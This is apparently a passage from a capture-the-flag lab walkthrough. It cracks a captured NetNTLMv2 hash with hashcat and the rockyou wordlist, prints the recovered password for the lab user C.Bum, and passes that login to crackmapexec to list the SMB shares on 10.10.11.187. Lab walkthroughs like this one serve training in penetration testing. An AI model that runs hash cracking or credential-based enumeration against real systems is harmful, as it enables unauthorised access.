 ![Alt text](img/image-18.png)



Let's crack this hash via `hashcat` tool.

```bash
hashcat -m 5600 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![Alt text](img/image-20.png)


That's credentials of `C.Bum` user.

C.Bum : Tikkycoll_431012284


Again, let's enumerate SMB Shares via this credentials by using `crackmapexec` tool.

```bash
crackmapexec smb 10.10.11.187 -u C.Bum -p 'Tikkycoll_431012284' --shares
```
